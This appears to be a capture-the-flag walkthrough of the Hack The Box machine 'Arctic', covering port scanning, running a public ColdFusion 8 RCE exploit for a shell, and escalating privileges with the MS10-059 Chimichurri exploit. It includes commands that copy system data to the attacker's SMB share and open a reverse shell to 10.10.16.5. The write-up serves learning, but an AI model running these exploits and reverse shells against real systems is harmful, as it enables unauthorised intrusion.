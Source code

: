 ```yaml
---
title: Artic
published: true
layout: post
---
```


<br />

---------------
Arctic is an easy Windows machine that involves straightforward exploitation with some minor challenges. The process begins by troubleshooting the web server to identify the correct exploit. Initial access can be gained either through an unauthenticated file upload in Adobe `ColdFusion`. Once a shell is obtained, privilege escalation is achieved using the MS10-059 exploit. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/ezlxaUmtGs8?si=wTOf4bbYxPd5-XRE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.11 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.11 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **3 open ports**:
+ **135/tcp**
+ **8500/tcp**
+ **49154/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.11 -p 135,8500,49154 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

Nmap couldn't determine the services, so I tried manually and find out that **port 8500/tcp** is a **web service**.

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.11 -p 135,8500,49154 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

The first thing we can see when visiting the web service is an ***Index of /*** , which we can use to delve into the files of this machine:<br />
![](/assets/Artic/1.png)
<br />
<br />

We delve until we find a **login website** in ***/CFIDE/administrator/***:<br />
![](/assets/Artic/2.png)
<br />
<br />

The first thing we can do is search for **vulnerabilities** of **Adobe ColdFusion 8**:

```bash
searchsploit Adobe Coldfusion 8
```

![](/assets/Artic/3.png)
<br />
<br />

There is an interesting one about **RCE**, so let's download it:

```bash
searchsploit -m 50057
```
<br />

Now we have to **adapt the exploit to fit our needs**, these are the lines to modify:<br />
![](/assets/Artic/4.png)
<br />
<br />

Let's execute it and see if it works:

```bash
python3 50057.py
```

![](/assets/Artic/5.png)
<br />
<br />

Great! We have a shell, let's print the flag:<br />
![](/assets/Artic/6.png)
<br />
<br />

------
<br />
### Privilege Escalation

We can start enumerating the machine and find that we have SeImpersonatePrivilege, but it doesn't lead us to privilege escalation, so I generated a `systeminfo` report, sent it to my machine and run **Window Exploit Suggester**:

```bash
Windows> systeminfo > systeminfo.txt
Kali> impacket-smbserver test . -smb2support
Windows> net use m: \\10.10.16.5\test
Windows> copy systeminfo.txt m:\
Kali> python3 windows-exploit-suggester.py --update -i systeminfo.txt -d 2024-11-25-mssb.xlsx --ostext 'Microsoft Windows Server 2008 R2 Standard'
```

![](/assets/Artic/7.png)
<br />
<br />

There are quite a few vulnerabilities, so we will avoid Metasploit modules, and Internet Explorer vulnerabilities. So we have **3 options left**:
+ **MS10-047**
+ **MS10-059**
+ **MS11-011**

<br />

I'm going to start with **MS10-059** as it's not a **kernel exploit**, which may cause instability in the machine, so I searched the Internet and found this exploit:<br />
![](/assets/Artic/8.png)
<br />
<br />

I downloaded it and send it to the target machine:

```bash
Kali> impacket-smbserver test . -smb2support
Windows> net use m: \\10.10.16.5\test
Windows> copy m:\Chimichurri.exe .
Windows> C:\Users\tolis\Desktop\Chimichurri.exe
```

![](/assets/Artic/9.png)
<br />
<br />

Let's start a **listener** and execute the **exploit**:

```bash
Kali> rlwrap nc 4445
Windows> C:\Users\tolis\Desktop\Chimichurri.exe 10.10.16.5 4445
```

![](/assets/Artic/10.png)
<br />
<br />
